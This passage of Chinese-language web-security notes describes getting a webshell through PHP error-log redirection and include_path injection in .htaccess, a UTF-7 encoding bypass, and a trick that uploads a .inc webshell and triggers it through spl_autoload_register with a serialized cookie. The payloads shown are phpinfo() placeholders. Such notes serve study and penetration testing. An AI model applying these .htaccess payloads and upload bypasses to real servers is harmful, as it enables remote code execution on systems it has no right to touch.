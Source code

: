 #### 0x3.7自定义错误文件

error.php

```
<?php include('shell');#报错页面
```

.htaccess

```
php_value error_log /tmp/www/html/shell.php 
php_value include_path "<?php phpinfo(); __halt_compiler();"
```

访问 error.php，会报错并记录在 shell.php 文件中
[![image-20221126142653035](D:\MDlearn\学习记录\md\文件上传相关部分.assets\image-20221126142653035.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200909010123-ed10a03e-f1f4-1.png)
因为会经过 html 编码，所以需要 UTF-7 来绕过。

.htaccess

```
# 第一次
php_value error_log /tmp/shell #定义错误路径
#---- "<?php phpinfo(); __halt_compiler();" in UTF-7:
php_value include_path "+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs"

# 第二次
php_value include_path "/tmp" #将include()的默认路径改变
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

## One Trick

看到common.inc.php里，包含spl_autoload_register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。 

这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。 

这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell： 

#### 1.1. 上传webshell，后缀为.inc，被重命名为xxxx.inc 

![img](https://ask.qcloudimg.com/http-save/yehe-1420111/4nkogvx8up.png?imageView2/2/w/1620)

#### 1.2. 序列化一个类名为xxxx的类对象 

![img](https://ask.qcloudimg.com/http-save/yehe-1420111/v5dalg1ag7.png?imageView2/2/w/1620)

#### 1.3. 将序列化以后的字符串作为cookie，发送到[服务器](https://cloud.tencent.com/product/cvm?from=10680)上 

![img](https://ask.qcloudimg.com/http-save/yehe-1420111/9fhaxruyz6.png?imageView2/2/w/1620)

#### 1.4. 服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功 
